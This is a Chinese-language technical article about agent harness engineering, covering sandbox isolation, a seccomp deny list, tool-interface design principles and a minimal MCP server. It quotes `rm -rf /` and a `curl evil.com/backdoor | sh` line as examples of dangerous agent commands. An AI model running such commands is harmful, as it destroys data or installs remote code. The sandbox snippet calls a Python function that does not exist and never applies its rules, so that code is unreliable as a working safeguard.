





## 引言

DeepSeek 的 Agent Harness 团队用一个简洁的公式定义了他们的使命：

\\[
\text{Model} + \text{Harness} = \text{Agent}
\\]

这里的 Harness 是什么？它是**除模型本身以外的所有工程系统**——工具执行环境、安全沙箱、进程管理、文件系统接口、网络控制、用户交互通道。如果说 LLM 是 Agent 的"大脑"，Harness 就是 Agent 的"身体"。

本文将深入 Harness 的核心工程设计：沙箱隔离模型、工具执行管线、ACI 设计原则，以及 Harness 如何与模型实现共同进化。

## 一、Harness 的架构定位

### 1.1 Harness 在 Agent 架构中的位置



Harness 不是 Agent 的一个"功能模块"，而是 **Agent 运行的基础设施层**。它定义了 Agent 能做什么、不能做什么、以及如何安全地做。

### 1.2 Harness 的核心职责

| 职责 | 说明 | 技术挑战 |
|------|------|---------|
| 工具执行 | 安全地运行 Agent 调用的工具 | 隔离性 vs 可用性 |
| 资源管理 | CPU/内存/磁盘/网络的配额控制 | 粒度与性能的平衡 |
| 状态管理 | 文件系统、环境变量、会话状态 | 持久化与回滚 |
| 安全边界 | 防止恶意代码执行、数据泄露 | 纵深防御 |
| 可观测性 | 日志、指标、追踪 | 低开销审计 |

## 二、三层沙箱隔离模型

### 2.1 为什么需要沙箱

Agent 执行的代码来自两个来源：
1. **预定义的工具**：开发者编写的，相对可信
2. **模型生成的代码**：模型动态生成的 Shell 命令、Python 脚本等——**完全不可信**

一个不加限制的 Agent 执行 `rm -rf /` 或 `curl evil.com/backdoor | sh` 的后果是灾难性的。沙箱是 Harness 的第一道防线。

### 2.2 三层隔离模型



### 2.3 选择策略

| 场景 | 推荐层级 | 理由 |
|------|---------|------|
| 只读文件读取 | Process (seccomp) | 风险低，追求性能 |
| Shell 命令执行 | Container | 需要完整文件系统隔离 |
| 用户提供的代码运行 | Container / VM | 完全不可信 |
| 生产环境 Agent 服务 | Container + VM 双层 | 纵深防御 |
| 本地桌面 Agent | Process + 用户确认 | 可用性优先 |

### 2.4 seccomp-bpf 实战

Linux seccomp-bpf 和 Landlock <cite>[3]</cite> 允许按系统调用级别和文件系统路径控制进程能力：

```python
import os
import subprocess

# 为 Agent 的工具执行设置 seccomp 规则
SECCOMP_RULES = """
# 允许的基础系统调用
read: 1
write: 1
openat: 1
close: 1
fstat: 1
mmap: 1
mprotect: 1
munmap: 1
brk: 1
rt_sigaction: 1
rt_sigprocmask: 1
sigaltstack: 1

# 明确禁止的危险调用
execve: 0        # 禁止执行新程序
socket: 0        # 禁止创建socket
connect: 0       # 禁止网络连接
ptrace: 0        # 禁止调试其他进程
mount: 0         # 禁止挂载
umount2: 0       # 禁止卸载
delete_module: 0 # 禁止卸载内核模块
init_module: 0   # 禁止加载内核模块
"""

def execute_in_sandbox(command: str, allowed_paths: list[str]):
    """在受控沙箱中执行命令"""
    # Landlock: 限制文件系统访问为白名单路径
    os.landlock_restrict_self(
        allowed_paths=allowed_paths,
        access_fs=["execute", "write_file", "read_file", "remove_file"]
    )
    # 执行命令
    return subprocess.run(command, shell=True, capture_output=True, text=True)
```

## 三、ACI：Agent-Computer Interface

### 3.1 ACI 的概念

ACI（Agent-Computer Interface）是 2025 年底 Anthropic 提出的概念 <cite>[1]</cite>：**Agent 与计算机之间的接口设计原则**，类似于 HCI（Human-Computer Interface）但面向 AI Agent 而非人类。



### 3.2 ACI 设计原则

**原则 1：最小接口表面积**
每个工具只暴露必要参数。一个 20 个参数的函数不如 3 个 6 参数的函数。

**原则 2：自描述性**
工具的输入输出应该是自描述的——模型仅凭工具定义就能正确使用，而不需要额外文档。

**原则 3：幂等性优先**
优先设计幂等操作。`create_or_update` 比 `create` + `update` 对 Agent 更友好——Agent 不需要跟踪"是否已经创建过"。

**原则 4：错误可恢复**
错误消息应该包含**可操作的信息**：不仅说"文件不存在"，还要说"可用文件列表：[...] "

**原则 5：原子性**
一个工具调用应该是一个原子操作。如果操作包含多个步骤，在服务端封装而不是让 Agent 编排多个调用。

### 3.3 工具设计的反模式

```python
# ❌ 反模式1：过大的接口表面积
def manage_cloud_resource(action, resource_type, region, config, tags, ...):
    ...

# ✅ 改进：拆分为专注的工具
def create_vm(region, machine_type, image): ...
def delete_vm(vm_id): ...
def list_vms(region, status_filter): ...

# ❌ 反模式2：不可恢复的错误
raise Exception("Operation failed")

# ✅ 改进：可操作的错误
return {
    "error": "VM creation failed: quota exceeded",
    "current_quota": 10,
    "used": 10,
    "suggestion": "Delete unused VMs or request quota increase at /admin/quotas"
}

# ❌ 反模式3：非幂等的创建
def create_file(path, content): ...  # 重复调用会失败

# ✅ 改进：幂等操作
def write_file(path, content): ...   # 重复调用覆盖写入
```

## 四、MCP 作为 Harness 标准化

### 4.1 MCP 在 Harness 中的角色

MCP (Model Context Protocol) 不仅是一个通信协议——它是 **Harness 的标准化接口**：



MCP Server 本质上就是**Harness 的一个标准化组件**——它封装了特定领域的所有工具实现、安全策略和资源管理。

### 4.2 实现一个最小 Harness MCP Server

```python
import asyncio
import subprocess
import json
from mcp.server import Server, stdio_server
from mcp.types import Tool, TextContent

class MiniHarnessServer:
    """最小化的 Harness Server：提供安全文件读写和命令执行"""
    
    def __init__(self, workspace: str, allowed_commands: list[str]):
        self.workspace = workspace
        self.allowed = set(allowed_commands)
        self.server = Server("mini-harness")
        self._register_tools()
    
    def _register_tools(self):
        @self.server.list_tools()
        async def list_tools():
            return [
                Tool(
                    name="read_file",
                    description="读取工作目录下的文件",
                    inputSchema={
                        "type": "object",
                        "properties": {
                            "path": {"type": "string", "description": "相对路径"}
                        },
                        "required": ["path"]
                    }
                ),
                Tool(
                    name="run_command",
                    description=f"执行允许的命令: {', '.join(self.allowed)}",
                    inputSchema={
                        "type": "object",
                        "properties": {
                            "command": {"type": "string"},
                            "args": {"type": "array", "items": {"type": "string"}}
                        },
                        "required": ["command"]
                    }
                )
            ]
        
        @self.server.call_tool()
        async def call_tool(name: str, arguments: dict):
            if name == "read_file":
                path = arguments["path"]
                # 路径遍历防护
                full_path = os.path.normpath(os.path.join(self.workspace, path))
                if not full_path.startswith(self.workspace):
                    return [TextContent(type="text", text="Error: path traversal denied")]
                with open(full_path) as f:
                    return [TextContent(type="text", text=f.read())]
            
            elif name == "run_command":
                cmd = arguments["command"]
                if cmd not in self.allowed:
                    return [TextContent(type="text", 
                        text=f"Error: '{cmd}' not allowed. Allowed: {', '.join(self.allowed)}")]
                result = subprocess.run([cmd] + arguments.get("args", []), 
                                       capture_output=True, text=True, timeout=30,
                                       cwd=self.workspace)
                return [TextContent(type="text", 
                    text=result.stdout or result.stderr)]

    async def run(self):
        async with stdio_server() as (read, write):
            await self.server.run(read, write, 
                self.server.create_initialization_options())
```

## 五、Harness 与模型的共同进化

### 5.1 DeepSeek 的特殊命题

DeepSeek 的 Harness 岗位描述中有一个关键句："**实现模型与 Harness 的共同进化，从 Harness 的角度实现与模型的深度适配**"。

这意味着什么？

传统的 Agent 开发是**单向的**：模型是既定的，Harness 去适配模型。而 DeepSeek 的愿景是**双向的**：



### 5.2 共同进化的具体机制

| 机制 | 说明 | 实例 |
|------|------|------|
| **工具定义微调** | 用 Harness 中工具的实际使用数据微调模型 | 模型学会更准确地选择参数 |
| **错误恢复训练** | 用 Harness 收集的错误-修复对训练模型 | 模型学会从工具错误中恢复 |
| **延迟感知路由** | Harness 反馈不同工具的实际延迟，模型学会规划最优调用顺序 | 先调用快的工具验证假设 |
| **安全边界学习** | 模型学习 Harness 的安全边界，减少被拒绝的操作尝试 | 模型不再尝试 `sudo` |

## 总结

Harness Engineering 是 Agent 工程中**工程量最大、对安全要求最高、但最容易被忽视**的部分。它的核心问题可以归结为三个：

1. **安全性**：如何在不可信代码执行与系统完整性之间找到平衡？（三层沙箱）
2. **可用性**：如何让工具接口对 LLM 友好，减少调用失败？（ACI 设计原则）
3. **可进化性**：如何让 Harness 与模型形成正向反馈循环？（共同进化）

理解了 Harness，你才真正理解了 "Model + Harness = Agent" 这个等式中，另一半的工程内涵。

---

## 参考文献

<ol class="references">
<li><em>Anthropic. "The Agent-Computer Interface (ACI) Design Principles."</em> Anthropic Research Blog, 2025.<br><a href="https://docs.anthropic.com/en/docs/build-with-claude/agent-computer-interface">https://docs.anthropic.com/en/docs/build-with-claude/agent-computer-interface</a></li>
<li><em>Anthropic. "Model Context Protocol (MCP) Specification."</em> 2024-2025.<br><a href="https://modelcontextprotocol.io/">https://modelcontextprotocol.io/</a></li>
<li><em>Linux Kernel. "Landlock: Unprivileged Access Control."</em> Linux Kernel Documentation.<br><a href="https://docs.kernel.org/userspace-api/landlock.html">https://docs.kernel.org/userspace-api/landlock.html</a></li>
</ol>
